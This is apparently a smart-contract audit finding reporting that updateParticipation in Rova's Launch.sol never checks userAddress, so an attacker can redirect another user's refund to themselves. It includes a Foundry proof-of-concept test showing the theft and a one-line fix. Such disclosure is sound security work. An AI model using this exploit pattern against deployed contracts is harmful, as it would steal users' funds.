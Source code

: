 Kind Eggshell Shark

High

# user will steal other user's funds

### Summary

The missing check in `updateParticipation` function will cause a stealing other user's funds.

### Root Cause

On  `updateParticipation` function in `Launch.sol`, it only checks if the previous userid is same with current userid in request, does not checks the userAddress.
[link](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L363)
If new amount is decreased than previous amount, the difference amount will be send to caller.

### Internal Pre-conditions

1. signer needs to sign the `UpdateParticipationRequest`

### External Pre-conditions

none

### Attack Path

1. user calls `updateParticipation` function with other user's info with decreased tokenAmount, changing userAddress to attacker's address

### Impact

The other users loss their funds

### PoC

```solidity
// Based on Launch.UpdateParticipation.t.sol
// [...]
    function test_steal_funds() public {
        ParticipationRequest memory request = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(request));

        vm.startPrank(user2);
        console.log("user2 balance", currency.balanceOf(user2));
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest2(500);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));
        launch.updateParticipation(updateRequest, updateSignature);
        console.log("user2 balance after exploit", currency.balanceOf(user2));
        vm.stopPrank();
        
    }
// [...]
    function _createUpdateParticipationRequest2(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId",
            userId: testUserId,
            userAddress: user2,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
```

### Mitigation

add a check that `request.userAddress == prevInfo.userAddress`